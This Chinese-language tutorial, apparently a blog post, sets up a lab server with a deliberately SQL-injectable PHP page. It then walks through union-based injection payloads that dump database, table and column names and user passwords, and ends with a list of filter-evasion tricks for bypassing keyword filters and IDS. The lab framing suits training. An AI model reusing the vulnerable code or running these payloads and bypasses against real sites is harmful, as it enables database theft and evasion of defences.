

# sql联合查询注入

## 一、购买服务器（腾讯云/阿里云）

（这里以腾讯云服务器为例）

25岁以下购买有优惠，但10元/月优惠价每个账号只有一次，建议直接购买一年

购买完毕后注意更改实例地区选择自己的实例


## 二、连接上自己的服务器

### 1、可以在实例操作界面点击登录


然后在弹窗界面扫码，接着在弹出的新标签页输入密码登录进入终端


### 2、通过Xshell等工具进行登录

------

# 三、配置服务器环境

~~操作均在终端界面~~

如果用

```
sudo su
```

切换成root用户则以下代码可以不用加sudo

------

#### 1、安装php

```
sudo apt-get install php7
```

------

#### 2、安装apache

```
sudo apt-get install apache2
```

------

#### 3、安装mysql

```
sudo apt-get install mysql-server mysql-client
```

此时可以输入 

```
cd /etc/mysql
```

切换到/etc/mysql目录下用

```
sudo vim debian.cnf
```

查看自己的mysql数据库默认用户名和密码。

------

#### 4、安装phpmyadmin

```
sudo apt-get install phpmyadmin
```

由于apache服务器根目录在/var/www/html，而phpmyadmin软件默认安装在/usr/share下，所以必须建立一个软连接，将二者连接起来。输入以下命令：

```
sudo ln -s /usr/share/phpmyadmin /var/www/html
```

接下来打开浏览器输入

[]: http://你的ip地址/phpmyadmin

打开phpmyadmin数据库管理界面，输入之前查询到的mysql用户名和密码进行登录即可管理自己服务器的数据库。

#### 5、XShell本地上传文件

php文件可以在本地电脑写好，到时候上传至服务器端/var/www/html即可在浏览器中执行。

**样例：**

##### （1）写一个php文件

新建一个test.txt，在其中键入

```php
<?php
phpinfo();
?>
```


先保存在桌面上，然后将文件后缀名修改为.php


##### （2）安装lrzsz并上传本地文件

在服务器终端输入

```
sudo apt-get install lrzsz
```

这样可以通过rz上传本地文件至服务器，sz下载服务器端的文件，实现服务器与本地文件互通。

接下来将文件上传至/var/www/html目录下：

先在服务器终端输入

```
cd /var/www/html
```

切换到/var/www/html目录，然后再输入

```
rz
```

选择桌面-test.php文件，即将test.php文件上传至服务器/var/www/html目录下。

接着在浏览器中打开

[]: http://你的ip地址/test.php

看到如下界面即上传成功。


## 四、创建test数据库

在3-4步骤中已经登陆了数据库界面


接下来创建一个靶机账户test


然后进入数据库界面创建一个新的数据库test


然后进入test库界面新建一张表user，字段数表示表的列数有几列


进入user表-结构界面添加字段的具体内容


然后切换到user表-插入界面插入具体信息


我这里插入了三条数据信息


至此测试用数据库test已搭建完毕

------

## 五、上传含有sql注入漏洞的php源码

该源码实现的功能是传入一个id由服务器执行，然后从数据库中调取该id的数据返回其用户名和密码

源码文件名为test.php

```php
<?php

$id = $_GET['id'];

echo "您当前执行的sql语句为：" ;
echo "select * from user where id=" . $id . "<br/>";
echo "<hr>";

$mysqli = new mysqli('localhost','test','test','test');
//注意后三个更改为自己的信息 
if(mysqli_connect_errno()){
    printf("连接失败:%s<br>",mysqli_connect_error());
    exit();
}


$result = $mysqli->query("select * from user where id=$id");
//进入数据库查询，并把结果行传回给$result
//print_r($result->fetch_array(MYSQLI_ASSOC));

while(list($id,$username,$password)=$result->fetch_row()){//取该行数据分别赋值
    echo "用户ID：" . $id . "<br/>";
    echo "用户名：" . $username . "<br/>";
    echo "用户密码：" . $password . "<br/>";
}

$result->close();
$mysqli->close()

?>

```

然后将该文件上传至服务器端，在浏览器里执行，开始正题联合查询。

# 六、联合查询获取所有用户信息

## （一）、判断是什么类型的注入

## 1、数字型注入

当输入的参数为整形时，如果存在注入漏洞，可以认为是数字型注入。

测试步骤：

（1） 加单引号，URL：www.text.com/text.php?id=3’

对应的sql：select * from table where id=3’ 这时sql语句出错，程序无法正常从数据库中查询出数据，就会抛出异常；

（2） 加and 1=1 ,URL：www.text.com/text.php?id=3 and 1=1

对应的sql：select * from table where id=3’ and 1=1 语句执行正常，与原始页面如任何差异；

（3） 加and 1=2，URL：www.text.com/text.php?id=3 and 1=2

对应的sql：select * from table where id=3 and 1=2 语句可以正常执行，但是无法查询出结果，所以返回数据与原始网页存在差异

如果满足以上三点，则可以判断该URL存在数字型注入。

### 2、字符型注入

当输入的参数为字符串时，称为字符型。字符型和数字型最大的一个区别在于，数字型不需要单引号来闭合，而字符串一般需要通过单引号来闭合的。

例如数字型语句：select * from table where id =3

则字符型如下：select * from table where name=’admin’

因此，在构造payload时通过闭合单引号可以成功执行语句：

测试步骤：

（1） 加单引号：select * from table where name=’admin’’

由于加单引号后变成三个单引号，则无法执行，程序会报错；

（2） 加 ’and 1=1 此时sql 语句为：select * from table where name=’admin’ and 1=1’ ,也无法进行注入，还需要通过注释符号将其绕过；

Mysql 有三种常用注释符：

--+注意，这种注释符后边有一个空格

通过#进行注释

/* */ 注释掉符号内的内容

因此，构造语句为：select * from table where name =’admin’ and 1=1--+’ 可成功执行返回结果正确；

（3） 加and 1=2— 此时sql语句为：select * from table where name=’admin’ and 1=2 –’则会报错

如果满足以上三点，可以判断该url为字符型注入

------

## 二、开始注入

------

在浏览器中输入

[]: 你的ip地址/test.php

界面显示为


当传入id=2时得到


1)：查询字段数量（原理：order by语句用于给某一列的数据进行排序，如果该序列超过数据库表的最大列数则返回错误信息或者不显示 ）

 url上添加输入 

```
order by 1
```





可以看到当排序列数为4时页面不返回任何信息，说明该数据库表一共有3列

2） 选取可以显示数据的位置 （使用union select语句同时显示两行信息）

目的是为了让之后的信息查询在页面上有位置显示出来


将id=2改为id=-2使union前的查询失败，只显示后面的列数，显示出来的列数表示该列信息可以显示在浏览器界面上，该列就可以被利用上进行后续的联合查询操作。


这里回显出1，2，3代表1，2，3列都可以显示数据，即sql注入语句写在1/2/3位都可以

3）读库信息（将url中1替换为database（））


也可以用下列语句将所有库名读出来

```
?id=-2 union select group_concat(' ',schema_name),2,3 from information_schema.schemata
```


5）读表信息（以下语句将数据库test的所有表名读出来）

```
id=-2 union select group_concat(' ',table_name),2,3 from information_schema.tables where table_schema='test'
```


6）读列信息（以下语句将数据库表user的所有列（字段）名读出来）

```
id=-2 union select group_concat(' ',column_name),2,3 
from information_schema.columns 
where table_schema='test' and table_name='user'
```


7）读数据信息

```
id=-2 union select group_concat(' ',username,' ',password),2,3 from test.user
```


## 三、一些被过滤情况

在php代码中添加if语句过滤掉关键字

```
and | select | update | chr | delete | %20from | ; | insert | mid | master. | set | =
```

对于绕过，收集了一些情况：

1、运用编码技术绕过

如URLEncode编码，ASCII编码绕过。例如or 1=1即%6f%72%20%31%3d%31，而Test也可以为CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)。

 

2、通过空格绕过

如两个空格代替一个空格，用Tab代替空格等，或者删除所有空格，如or’ swords’ =‘swords’ ，由于mssql的松散性，我们可以把or ‘swords’ 之间的空格去掉，并不影响运行。

 

3、运用字符串判断代替

用经典的or 1=1判断绕过,如or ‘swords’ =’swords’，这个方法就是网上在讨论的。

 

4、通过类型转换修饰符N绕过

可以说这是一个不错的想法，他除了能在某种程度上绕过限制，而且还有别的作用，大家自己好好想想吧。关于利用，如or ‘swords’ = N’ swords’ ，大写的N告诉mssql server 字符串作为nvarchar类型，它起到类型转换的作用，并不影响注射语句本身，但是可以避过基于知识的模式匹配IDS。

 

5、通过+号拆解字符串绕过

效果值得考证，但毕竟是一种方法。如 or ‘swords’ =‘sw’ +’ ords’ ；EXEC(‘IN’ +’ SERT INTO ‘+’ …..’ )

 

6、通过LIKE绕过

以前怎么就没想到呢？如or ‘swords’ LIKE ‘sw’！！！显然可以很轻松的绕过“=”“>”的限制……

 

7、通过IN绕过

与上面的LIKE的思路差不多,如or ‘swords’ IN (‘swords’)

 

8、通过BETWEEN绕过

如or ‘swords’ BETWEEN ‘rw’ AND ‘tw’

 

9、通过>或者<绕过

or ‘swords’ > ‘sw’
or ‘swords’ < ‘tw’
or 1<3

……

 

10、运用注释语句绕过

用/**/代替空格，如：UNION /**/ Select /**/user，pwd，from tbluser

用/**/分割敏感词，如：U/**/ NION /**/ SE/**/ LECT /**/user，pwd from tbluser

 

11、用HEX绕过，一般的IDS都无法检测出来

0x730079007300610064006D0069006E00 =hex(sysadmin)
0x640062005F006F0077006E0065007200 =hex(db_owner)
